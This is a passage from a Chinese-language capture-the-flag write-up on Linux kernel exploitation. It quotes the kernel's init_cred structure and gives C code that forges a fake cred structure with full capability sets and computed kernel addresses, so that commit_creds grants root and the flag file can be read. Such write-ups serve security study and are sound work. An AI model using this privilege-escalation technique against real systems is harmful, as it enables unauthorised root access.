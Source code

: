 ```c
/*
 * The initial credentials for the initial task
 */
struct cred init_cred = {
        .usage                  = ATOMIC_INIT(4),
#ifdef CONFIG_DEBUG_CREDENTIALS
        .subscribers            = ATOMIC_INIT(2),
        .magic                  = CRED_MAGIC,
#endif
        .uid                    = GLOBAL_ROOT_UID,
        .gid                    = GLOBAL_ROOT_GID,
        .suid                   = GLOBAL_ROOT_UID,
        .sgid                   = GLOBAL_ROOT_GID,
        .euid                   = GLOBAL_ROOT_UID,
        .egid                   = GLOBAL_ROOT_GID,
        .fsuid                  = GLOBAL_ROOT_UID,
        .fsgid                  = GLOBAL_ROOT_GID,
        .securebits             = SECUREBITS_DEFAULT,
        .cap_inheritable        = CAP_EMPTY_SET,
        .cap_permitted          = CAP_FULL_SET,
        .cap_effective          = CAP_FULL_SET,
        .cap_bset               = CAP_FULL_SET,
        .user                   = INIT_USER,
        .user_ns                = &init_user_ns,
        .group_info             = &init_groups,
};
```

看上去只要 `.usage = 4`，其他的全 0 就完事了。但实际上并不是。经过测试在 `ptr[15]` 处需要填充一处可读写的地址（填 SLUB 地址就行），这样就可以成功执行 `commit_creds` 拿到 root 权限。Nu1L 题解这样就行，但是我复现的时候发现后续 `open("/flag")` 再次 syscall read 的时候会出现段错误，错误现场能推测出是 `cred` 结构体伪造有误。最后经过反复尝试发现 `ptr[17]` 处需要和 `init_cred` 该处的值保持一致，这个值在 kernel 的某个数据段，和 kernel 代码段偏移貌似是有概率不变的。

```c
    ptr[0] = 4;
    ptr[1] = 0;
    ptr[2] = 0;
    ptr[3] = 0;
    ptr[4] = 0;
    ptr[5] = commit_creds;

    ptr[6] = 0x1FFFFFFFFF;
    ptr[7] = 0x1FFFFFFFFF;
    ptr[8] = 0x1FFFFFFFFF;

    ptr[15] = slub_addr;
    // ptr[16] = 0xffffffff8284ef80;
    // ptr[17] = 0xffffffff8284f020;
    ptr[17] = commit_creds - 0xffffffff8109bcf0 + 0xffffffff8284f020;
    // ptr[18] = 0xffffffff82850e20;
    // ptr[19] = 0xffffffff82850610;
```
